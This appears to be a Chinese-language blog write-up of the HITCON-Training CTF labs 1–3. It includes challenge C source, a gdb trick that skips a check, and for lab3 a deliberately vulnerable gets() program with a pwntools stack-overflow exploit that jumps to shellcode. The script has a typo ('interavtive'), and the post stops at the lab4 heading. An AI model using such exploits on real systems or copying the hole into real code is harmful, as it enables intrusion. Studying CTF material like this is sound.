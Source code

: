 ```yaml
---
title: HITCON-training
date: 2018-03-22 23:34:59
tags: CTF
---
```




## Github:

https://github.com/scwuaptx/HITCON-Training

<!--more-->

## lab1

```
#include <stdio.h>
#include <unistd.h>



void get_flag(){
        int fd ;
        int password;
        int magic ;
        char key[] = "Do_you_know_why_my_teammate_Orange_is_so_angry???";
        char cipher[] = {7, 59, 25, 2, 11, 16, 61, 30, 9, 8, 18, 45, 40, 89, 10, 0, 30, 22, 0, 4, 85, 22, 8, 31, 7, 1, 9, 0, 126, 28, 62, 10, 30, 11, 107, 4, 66, 60, 44, 91, 49, 85, 2, 30, 33, 16, 76, 30, 66};
        fd = open("/dev/urandom",0);
        read(fd,&password,4);
        printf("Give me maigc :");
        scanf("%d",&magic);
        if(password == magic){
                for(int i = 0 ; i < sizeof(cipher) ; i++){
                        printf("%c",cipher[i]^key[i]);
                }
        }
}


int main(){
        setvbuf(stdout,0,2,0);
        get_flag();
        return 0 ;
}

```

看题目提示是让我们熟悉工具的使用，那么这里直接修改逻辑就行

{%asset_img 0.png%}

gdb下好断点 

b *0x08048720

然后跑起来，修改eip的值为0x8048724

也就是让程序直接跳转到计算flag的流程中去

{%asset_img 1.png%}



## lab2



让我们输入shellcode然后执行

{%asset_img 2.png %}

因为以前编写shellcode都是用生成的，所以就参考着给的答案自己再本地修改了下，新建了一个flag文件，然后运行修改后的shellcode

{%asset_img 3.png%}





## lab3 

```
#include <stdio.h>

char name[50];

int main(){
        setvbuf(stdout,0,2,0);
        printf("Name:");
        read(0,name,50);
        char buf[20];
        printf("Try your best:");
        gets(buf);
        return ;
}

```

一个简单的栈溢出漏洞

```
from pwn import *

p = process('./ret2sc')

payload = ''
payload += 'a'*32 + p32(0x804A060)

shellcode = asm(shellcraft.linux.sh())


p.recvuntil('Name:')

p.sendline(shellcode)


p.recvuntil('Try your best:')

p.sendline(payload)

p.interavtive()

```



## lab4

